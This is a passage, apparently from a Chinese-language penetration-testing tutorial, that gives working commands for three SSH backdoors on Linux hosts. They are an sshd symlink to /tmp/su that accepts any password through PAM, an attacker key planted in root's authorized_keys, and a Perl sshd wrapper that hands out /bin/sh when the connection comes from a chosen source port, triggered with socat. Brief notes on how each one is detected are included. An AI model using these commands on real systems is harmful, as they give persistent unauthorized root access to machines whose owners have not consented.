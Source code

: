 ```bash
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=5555;
```

攻击机直接ssh登录

```bash
ssh root@x.x.x.x -p 5555
```

这里端口可以任意，但是`/tmp/su`部分有限制。可以使用任意密码进行登录，在sshd服务配置运行PAM认证的前提下，PAM配置文件中控制标志为`sufficient`时只要`pam_rootok`模块检测uid为0即root权限即可成功认证登陆。通过软连接的方式，实质上PAM认证是通过软连接的文件名 `/tmp/su` 在`/etc/pam.d/`目录下寻找对应的PAM配置文件(如: `/etc/pam.d/su`)，任意密码登陆的核心是`auth sufficient pam_rootok.so`，所以只要PAM配置文件中包含此配置即可SSH任意密码登陆，除了su中之外还有chsh、chfn同样可以。具体原理详见[Linux的一个后门引发对PAM的探究](http://www.91ri.org/16803.html)。

缺点：易被排查，通过进程、端口可以轻松看到异常，使用`kill -s 9 PID`即可清除后门。

#### 2. ssh免密后门(文件落地)

在攻击机上生成一对公私钥，然后将公钥上传到目标主机，路径为`~/.ssh/authorized_keys`，攻击机本地保存私钥。通过ssh登录，ssh程序会发送私钥到目标主机与公钥进行匹配，匹配通过即可实现ssh登录。

生成公钥和私钥：

```bash
ssh-keygen -t rsa
```

进入`/root/.ssh`，将公钥`id_rsa.pub`的内容复制到目标主机（是否上传替换文件取决于具体情况），在`/root/.ssh/authorized_keys`中追加`id_rsa.pub`中的内容，配置完成。(有些系统没有keys文件，可以自行创建一个。)

缺点：易被排查，检查`/root/.ssh/authorized_keys`是否被修改，清理不受信的公钥即可清除后门。

#### 3. ssh wrapper（文件落地）

目标主机上执行：

```bash
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```

完成后执行`cat sshd`进行验证，输出如下则说明配置成功：

```bash
#!/usr/bin/perl
exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);
exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,
```

攻击机上执行：

```bash
socat STDIO TCP4:x.x.x.x:22,sourceport=13377
```
